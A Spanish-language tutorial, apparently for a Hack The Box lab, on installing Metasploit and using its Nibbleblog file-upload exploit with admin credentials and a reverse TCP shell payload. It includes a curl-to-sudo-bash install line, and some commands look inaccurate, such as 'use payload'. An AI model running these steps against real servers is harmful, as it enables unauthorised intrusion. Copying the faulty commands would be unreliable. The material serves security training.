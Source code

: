 
---

# Metasploit Framework - Explotación de Nibbleblog

---

## Usos y consideraciones de Metasploit Framework

> Metasploit es una herramienta de código abierto utilizada por profesionales de seguridad para probar la robustez de las redes y sistemas mediante la explotación de vulnerabilidades conocidas.

---

### 1. Descargar Metasploit Framework

#### A) Web oficial

https://www.metasploit.com/

	- Acude a la página oficial de la herramienta y descarga la versión 'Open source'.

#### B) En Linux usando terminal 

##### B.1. Instalar dependencias

Primero, asegúrate de tener las dependencias necesarias.
Si estás en Ubuntu/Debian puedes instalar las dependencias con:

```bash
sudo apt update
sudo apt install curl wget git build-essential libssl-dev libpq-dev libreadline-dev libpcap-dev libsqlite3-dev
```

##### B.2. Instalar Metasploit Framework

Puedes instalar Metasploit Framework usando el script de instalación proporcionado por el proyecto rapid7 o desde los repositorios oficiales.

### Método 1: Usar el script de instalación (recomendado) 

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfvenom-installer.sh | sudo bash
```

### Método 2: Usar apt (si está disponible en los repositorios)

```bash 
sudo apt install metasploit-framework
```

### 2. Uso de Metasploit Framework

#### 2.1. Ejecutar Metasploit Framework

```bash
msfconsole
```

Esto debe de abrir la consola interactiva de Metasploit (msfconsole), donde puedes empezar a usar la herramienta.

![Captura de pantalla](./Imágenes/msfconsole.png)

#### 2.2. Buscar módulos de exploits

Para buscar exploit disponibles usamos el comando 'search' seguido de la vulnerabilidad/servicio a explotar. Vemos dos ejemplos para Wordpress y Nibbleblog

```bash
search Wordpress
```

```bash
search Nibbleblog
```

![Captura de pantalla](./Imágenes/search.png)

#### 2.3. Seleccionar un exploit

Para usar un exploit específico, primero debes seleccionarlo con el comando `use`
 
```bash
use 0
```

```bash
use exploit/multi/http/nibbleblog_file_upload
```
Dos formas válidas de seleccionar un exploit (el nº 0 hace referencia al índice del exploit, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

![Captura de pantalla](./Imágenes/use.png)

#### 2.4. Ver los parámetros del exploit

Cuando seleccionas un exploit, tienes que ver los parámetros necesarios (como la dirección IP de la víctima, puertos, etc.) con `show options`:

##### 2.4.1 Parámetros del Exploit

- **RHOST**: Dirección IP del objetivo.
- **LHOST**: Dirección IP de la máquina atacante (tu propia máquina).
- **LPORT**: Puerto de escucha para la conexión reversa.
- **targeturi**: Especifica la ruta del servicio web que vamos a explotar, en este caso, `nibbleblog` (por defecto o nombre de directorio).


```bash
show options
```

![Captura de pantalla](./Imágenes/show_options.png)
	
#### 2.5. Configurar los parámetros del exploit

Configuramos cada parametro que este marcado como 'yes' con el comando `set`

Establecemos la opción 'rhosts' como la dirección IP de destino (IP víctima)

```bash
set RHOST 10.129.126.4
```

Establecemos la opción 'lhosts' como la dirección IP atacante (en HTB usar la IP tun0 propia de la VPN)

```bash
set LHOST 10.10.12.4
```

Establecemos la opción 'username' con el nombre de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set username admin
```

Establecemos la opción 'password' con la contraseña de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set password <contraseña_de_usuario>
```

[!] Cambiar <contraseña_de_usuario> por la correcta de Nibbleblog (para este caso)

Establecemos la opción 'targeturi' con el nombre del servicio a explotar

```bash
set targeturi nibbleblog
```

Una vez, configuradas las distintas opciones señaladas como necesarias (como 'yes') podemos comprobar los cambios usando de nuevo `show options`

#### 2.6. Configurar parámetros de payload (o carga útil)

Cada exploit requiere de un payload, para ver los disponibles podemos usar el comando `show payloads`
 
```bash
show payloads
```

![Captura de pantalla](./Imágenes/show_payloads.png)

#### 2.7. Seleccionar un payload

Para usar un payload específico, primero debes seleccionarlo con el comando `use`
 
```bash
use payload 4
```

```bash
use payload generic/shell_reverse_tcp
```
Dos formas válidas de seleccionar un payload (el nº 4 hace referencia al índice del payload, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

Puedes ver la información sobre el payload con el comando `info`

```bash
info generic/shell_reverse_tcp
```

[!] Importante revisar de nuevo `show options` para verificar la configuración

#### 2.8. Ejecutar exploit

Para ejecutar el exploit seleccionado y configurado podemos usar los comandos `run` o `exploit`
 
```bash
run
```

```bash
exploit
```

Despues de ejecutar el exploit, deberíamos de obtener (para este caso) una shell reversa. A partir de aquí sería continuar con la explotación en el grado que se requiera (por ejemplo elevando privilegios)

---


